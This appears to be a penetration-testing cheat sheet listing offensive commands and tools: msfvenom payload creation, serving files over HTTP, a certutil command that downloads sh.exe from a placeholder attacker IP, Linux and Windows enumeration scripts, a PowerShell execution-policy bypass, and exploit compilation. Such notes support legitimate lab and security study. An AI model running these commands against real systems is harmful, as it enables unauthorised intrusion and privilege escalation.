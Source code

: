 0. Useful commands/scripts

`msfvenom` creates malicious payloads in a variety of formats, see google cheatsheets for usage
`python -m SimpleHTTPServer 80` serves all the files in your current directory as a web server
`certutil -urlcache -f http://IP/sh.exe sh.exe` download file from above command on windows
`linenum.sh` good linux enumeration shell
`linuxprevchecker.py` another good linux enumeration shell
`msfconsole`: `use multi/recon/local_exploit_suggester` good enumeration script if you have setup a meterpreter shell
`rastamouse sherlock` good windows enumeration script
- `powershell.exe -exec bypass -Command "% {Import-Module .\sher.ps1; Find-AllVulns`"

https://github.com/AonCyberLabs/Windows-Exploit-Suggester good windows exploit suggester, use `systeminfo` to get sysinto to feed script.
Compile C exploit: `gcc FILE.c -o ex.exe`
https://www.fuzzysecurity.com/tutorials/16.html Good exploits on windows

No tty? https://netsec.ws/?p=337